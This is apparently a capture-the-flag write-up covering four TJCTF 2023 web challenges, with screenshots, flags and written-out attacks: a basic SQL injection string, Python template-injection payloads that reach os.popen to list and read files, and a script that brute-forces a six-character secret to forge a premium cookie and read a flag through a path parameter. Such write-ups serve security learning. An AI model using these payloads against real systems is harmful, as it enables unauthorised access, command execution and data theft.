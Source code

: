 # Web challenges in TJCTF 2023
- [hi](#hi)
- [swill-squill](#swill-squill)
- [outdated](#outdated)
- [pay-to-win](#pay-to-win)

-----

## hi

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/d1bf92ee-d474-4bb6-9a0b-0dedf8b4c38a)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/11d70c38-edd4-4676-a276-f70ee50410e6)

Nothing interesting in the website. But there is something interesting in the source.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/af75691d-0cc6-4bd9-940f-230fc6c765c6)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/f3791466-1a0f-45f7-bb95-952bd7e394f3)

Flag: `tjctf{pretty_canvas_577f7045}`

-----

## swill-squill

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/f96c4654-7412-44fe-952a-8712b2f4cbf0)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/358fe78e-55b0-4984-b23d-3b1a9d6cee25)

This is vulnerable to basic `' or 1=1 ; --` SQL injection.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/cb9c8d95-9877-40ce-9926-c8e87003b62b)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/93c86016-9219-4c20-bd7f-7281803c06c9)

Flag: `tjctf{swill_sql_1y1029345029374}`

-----

## outdated

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/fdfb692b-6471-4e58-8042-54f3e0e4a3f4)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/8c71c4bb-540a-47dd-9634-a5cae54556b2)

Some blacklisted items here but its essentially a SSTI sort of. I tried a basic payload.

`print(''.__class__.__mro__[1].__subclasses__())`

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/eb00a81f-7428-4cff-8683-3b7c88001e63)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/da577c04-8ffc-4092-8475-3b53734cf0d2)

4th last item is my [favourite](https://blog.p6.is/Python-SSTI-exploitable-classes/#Using-os-wrap-close).

`print(''.__class__.__mro__[1].__subclasses__()[-4].__init__.__globals__['sys'].modules['os'].popen('ls').read())`

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/04537d2d-ec8a-4aae-910a-e967aadefb56)

`print(''.__class__.__mro__[1].__subclasses__()[-4].__init__.__globals__['sys'].modules['os'].popen('cat flag-cce1c56d-466d-4af9-8ae7-c7bcf99d5c49.txt').read())`

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/0590a762-f28d-4ba3-9789-b6cb9f8219db)

Flag: `tjctf{oops_bad_filter_3b582f74}`

-----

## pay-to-win

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/13e85289-50bc-453b-a680-b6840b097627)

Need to bypass this so need to bruteforce the 6 character key.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/0f5b034a-b483-47d4-aebb-2a332bbbba0b)

Getting premium allows us to load anything. Like the flag

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/eca7551c-58cf-4dec-908c-9f22d5c519c0)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/493c079d-4191-4fad-b75a-76fe380942da)

```py
import requests
import hashlib
import itertools

characters = 'abcdefghijklmnopqrstuvwxyz0123456789'
length = 6
combinations = itertools.product(characters, repeat=length)

url = 'https://pay-to-win.tjc.tf/'

new = "eyJ1c2VybmFtZSI6ICJqZXJvbWUiLCAidXNlcl90eXBlIjogInByZW1pdW0ifQ==" #'{"username": "jerome", "user_type": "premium"}'
old = "eyJ1c2VybmFtZSI6ICJqZXJvbWUiLCAidXNlcl90eXBlIjogImJhc2ljIn0=" #'{"username": "jerome", "user_type": "basic"}'
h = "46378b50e362bb73a60886b2d55957b6a79acd1ae8d6069a7bce2fbbda3f640c"


def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()

actual_secret = ""
actual_hash = ""

for c in combinations:
    secret = ''.join(c)
    hashed = hash(old + secret)

    if hashed == h:
        actual_secret = secret
        actual_hash = hash(new + secret)
        break

print(actual_secret)
print(actual_hash)

r = requests.get(url + "?theme=/secret-flag-dir/flag.txt", cookies={'data': new, 'hash': actual_hash})

print(r.text)
```

Flag: `tjctf{not_random_enough_64831eff}`
